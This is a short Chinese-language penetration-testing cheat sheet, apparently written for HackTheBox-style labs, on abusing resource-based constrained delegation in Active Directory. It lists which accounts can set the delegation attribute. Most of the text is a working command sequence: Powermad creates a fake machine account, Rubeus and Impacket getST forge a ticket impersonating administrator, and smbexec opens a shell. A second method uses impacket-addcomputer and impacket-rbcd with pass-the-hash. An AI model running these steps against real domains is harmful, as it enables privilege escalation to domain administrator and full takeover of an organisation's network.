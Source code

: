 默认情况下以下账户拥有修改 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的权限：  
Domain Admins(域管理员)  
mS-DS-CreatorSID(将该机器加入域的账户)  
NT AUTHORITY\SELF(机器账户本身）

在假设获取到了域内普通用户的情况下：

攻击步骤：

1、查看当前用户对应的域内机器；
2、创建机器用户；
3、由于当前用户对加入域内的主机拥有配置基于RBCD的权限，所以配置RBCD；
4、使用新建的机器账 户，就可以获取到目标域内机器的最高权限。

域内主机，域外参考sxf域渗透打法：

```
一、导入模块：
Import-Module ./Powermad.ps1
或者
. ./Powermad.ps1
二、添加机器账户，基于资源的约束型委派需要：
Set-Variable -Name "FakePC" -Value "FAKE01"  # FAKE01这个名字可以自己改
Set-Variable -Name "targetComputer" -Value "DC"
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
三、设置权限
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
四、生成hash
./Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
五、利用hash申请票据
添加hosts文件
echo "10.10.11.174 support.htb" >> /etc/hosts
echo "10.10.11.174 dc.support.htb" >> /etc/hosts
生成TGT票据，以administrator的身份申请一张访问http/dc.support.htb服务的票据
python3 getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
六、连接
添加票据，如果失败，添加dns解析
export KRB5CCNAME=administrator.ccache
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k



方法二：
impacket-addcomputer -computer-name "machine19" -computer-pass "P@ssw0rd" -dc-ip 192.168.180.175 -method SAMR -debug resourced.local/L.Livingstone -hashes :19a3a7550ce8c505c2d46b5e39d6f808

impacket-rbcd -delegate-from machine19$ -delegate-to RESOURCEDC$ -dc-ip 192.168.180.175 -action write resourced.local/L.Livingstone -hashes :19a3a7550ce8c505c2d46b5e39d6f808

impacket-getST resourced.local/'machine18$':'P@ssw0rd' -spn cifs/RESOURCEDC.resourced.local -impersonate administrator

后面第六步一样
```
